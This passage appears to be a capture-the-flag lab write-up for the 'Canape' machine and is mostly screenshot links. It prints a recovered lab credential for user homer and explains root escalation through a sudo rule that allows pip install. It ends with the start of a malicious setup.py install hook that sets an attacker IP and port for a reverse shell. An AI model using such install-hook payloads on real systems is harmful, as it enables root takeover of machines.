 ![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%2010.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%2011.png)

**homer : 0B4jyA0xtytZi7esBNGp**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%2012.png)

### Privilege Escalation to Root

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Canape%20Box%20e6ca8c6955f94958b1d71d2f5a203bc1/Untitled%2013.png)

⇒ We can run pip install as root 🙂

Exploiting it : [https://github.com/0x00-0x00/FakePip](https://github.com/0x00-0x00/FakePip)

```python
from setuptools import setup
from setuptools.command.install import install
import base64
import os

class CustomInstall(install):
  def run(self):
    install.run(self)
    LHOST = '10.10.14.2'  # change this
    LPORT = 1234
    
```